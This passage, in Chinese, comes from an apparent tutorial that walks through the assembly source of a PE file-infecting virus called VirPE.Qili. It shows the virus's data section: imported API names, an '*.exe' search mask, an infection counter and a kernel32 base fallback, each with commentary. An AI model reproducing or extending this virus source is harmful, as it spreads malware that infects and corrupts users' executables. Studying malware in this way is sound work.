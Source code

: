 ```assembly
szTranslateAcceleratorA db 'TranslateAcceleratorA',0
szTranslateMessage db 'TranslateMessage',0
szUpdateWindow db 'UpdateWindow',0
szUser32 db 'user32.dll',0,0
szExitProcess db 'ExitProcess',0
szGetModuleHandleA db 'GetModuleHandleA',0
szRtlZeroMemory db 'RtlZeroMemory',0
szlstrcmpA db 'lstrcmpA',0
szKernel32 db 'kernel32.dll',0,0
```

------

接着看代码：

------

```assembly
44 mark _db '[VirPE.Qili.v1.00]',0 ;病毒标识
45 db '(c)2010 Qili ShanDong',0
46 EXE_MASK db '*.exe',0
47 infections dd 00000000h ;感染文件的个数，超过指定个数即退出
48 kernel dd DEFAULT_KERNEL_BASE
49
```

------

`mark_`是病毒编写者的个人喜好，有的`mark`是用文字来描述，有的则使用图标来展示。有的人可能是为了出名，就像在书籍里声明“版权所有，侵权必究”那样；而笔者认为它是一个版本标识，负责记录该PE病毒的版本信息。

==变量`infections`是已感染EXE文件个数的记录，每感染一次即和常量`INFECTFILES`进行比较，超出则静默，不再执行感染操作==。

==变量`kernel`是存放`kernel32.dll`基地址的变量，如果获取基地址失败，则被赋值为常量`DEFAULT_KERNEL_BASE`或`DEFAULT_KERNEL_BASEwNT`==。

------

```assembly
50 szFunNames equ this byte ;函数名列表
51 szFindFirstFileA db 'FindFirstFileA',0
52 szFindNextFileA db 'FindNextFileA',0
53 szFindClose db 'FindClose',0
54 szCreateFileA db 'CreateFileA',0
55 szSetFilePointer db 'SetFilePointer',0
56 szSetFileAttributesA db 'SetFileAttributesA',0
57 szCloseHandle db 'CloseHandle',0
58 szGetCurrentDirectoryA db 'GetCurrentDirectoryA',0
59 szSetCurrentDirectoryA db 'SetCurrentDirectoryA',0
60 szGetWindowsDirectoryA db 'GetWindowsDirectoryA',0
61 szGetSystemDirectoryA db 'GetSystemDirectoryA',0
62 szCreateFileMappingA db 'CreateFileMappingA',0
63 szMapViewOfFile db 'MapViewOfFile',0
64 szUnmapViewOfFile db 'UnmapViewOfFile',0
65 szSetEndOfFile db 'SetEndOfFile',0
66 db 0bbh ;结束符
67
```
